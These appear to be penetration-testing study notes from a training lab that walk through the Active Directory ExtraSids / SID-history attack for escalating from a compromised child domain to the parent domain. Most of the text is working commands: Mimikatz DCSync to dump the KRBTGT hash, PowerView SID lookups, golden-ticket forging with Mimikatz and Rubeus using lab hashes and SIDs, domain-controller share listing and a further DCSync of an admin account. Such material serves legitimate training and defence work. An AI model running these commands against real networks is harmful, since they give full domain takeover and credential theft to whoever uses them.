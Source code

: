 ## SID History Primer

sidHistory attribute is used when migrating a user's account from one domain to another.
Using Mimikatz, an attacker can perform SID history injection and add an administrator account or Domain Admin account to the SID History attribute of an account they control.

## ExtraSids Attack - Mimikatz
- Allows for the compromise of a parent domain once the child domain has been compromised.
- Leverage SIDHistory to grant an account (or non-existent account) Enterprise Admin rights by modifying this attribute to contain the SID for the Enterprise Admins group, which will give us full access to the parent domain without actually being part of the group.

After compromising a child domain, we need:
- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.

**Obtaining the KRBTGT Account's NT Hash using Mimikatz
```
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```

**Using Get-DomainSID (PowerView)
```
Get-DomainSID
```

**Obtaining Enterprise Admins Group's SID using Get-DomainGroup
```
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"
```

**Creating a Golden Ticket with Mimikatz
```
mimikatz.exe
kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```
- /rc4 is the NT hash
- /sids tells Rubeus Golden Ticket

**Confirming a Kerberos Ticket in Memory
```
klist
```

**Listing the Entire C: Drive of the Domain Controller
```
ls \\academy-ea-dc01.inlanefreight.local\c$
```


## ExtraSids Attack - Rubeus

**Creating a Golden Ticket with Rubeus
```
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
klist
```

**Performing a DCSync Attack
```
.\mimikatz.exe
lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```

Target domain is not the same as the user's domain:
```
lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```


